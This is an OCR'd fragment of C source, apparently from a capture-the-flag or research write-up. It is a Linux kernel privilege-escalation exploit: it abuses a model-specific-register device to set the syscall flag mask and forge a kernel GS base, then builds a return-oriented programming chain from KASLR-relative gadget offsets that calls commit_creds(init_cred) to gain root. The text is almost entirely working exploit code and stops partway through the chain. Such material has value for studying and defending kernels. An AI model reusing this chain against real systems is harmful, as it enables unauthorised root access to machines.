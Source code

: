 ```c
  
  
int  main(){
	pin_cpu(0);
	
	int fd =  open("/dev/msr", O_RDONLY);
	char* kgsbase;
	char* fake_stack;
	ul* kbase;
	int parent_child =  getpid();
	
	ul rsp;
	__asm__  volatile ("mov %%rsp, %0" : "=r"(rsp));
	
	stop("set eflags mask");
	ioctl(fd, MSR_SYSCALL_MASK, EFLAGS_MASK); 
	
	stop("set fake kernel gs base");
	fake_stack = (char*) mmap(NULL, 0x2000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);
	kgsbase = (char*) mmap((void* ) KERNEL_GS, GS_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);
	kbase = (ul*) mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);
	
	int pid =  fork();
	if (!pid){
		pin_cpu(1);
		memset(fake_stack, 0, 0x2000);
		memset(kbase, 0, 0x1000);
		memset(kgsbase, 0, GS_SIZE);
		
		*(ul*) &kgsbase[0x2be40] = (ul) kgsbase;
		*(ul*) &kgsbase[0x6004] = (ul) fake_stack +  0x1000;
		*(ul*) &kgsbase[0x2be58] = (ul) fake_stack +  0x1000;
		char* chain = fake_stack+0x1000;
		
		*&kbase[1] =  1;
		while (!*kbase){} // wait for parent to overwrite MSR_KERNEL_GS_BASE and leak kaslr
		
		// set correct gs
		*(ul*) &fake_stack[0x1000] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1008] = (ul) &fake_stack[0x1068];
		*(ul*) &fake_stack[0x1010] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x1018] = PAGE_OFFSET_BASE +  *kbase;
		*(ul*) &fake_stack[0x1020] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x1028] =  8;
		*(ul*) &fake_stack[0x1030] = REP_MOVS_ALTERNATIVE +  *kbase;
		*(ul*) &fake_stack[0x1038] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x1040] = PHYS_GS;
		*(ul*) &fake_stack[0x1048] = POP_RDX +  *kbase;
		*(ul*) &fake_stack[0x1050] = (ul) &fake_stack[0x1068] - PHYS_GS -  1;
		*(ul*) &fake_stack[0x1058] = ADD_DWORD_RSIRDX1_ESI +  *kbase;
		*(ul*) &fake_stack[0x1060] = POP_RDX +  *kbase;
		*(ul*) &fake_stack[0x1068] =  0x6969696969696969;
		*(ul*) &fake_stack[0x1070] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x1078] = MSR_KERNEL_GS_BASE;
		*(ul*) &fake_stack[0x1080] = WRMSR +  *kbase;
		  
		// commit_creds(init_cred)
		*(ul*) &fake_stack[0x1088] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1090] = INIT_CRED +  *kbase;
		*(ul*) &fake_stack[0x1098] = COMMIT_CREDS +  *kbase;
```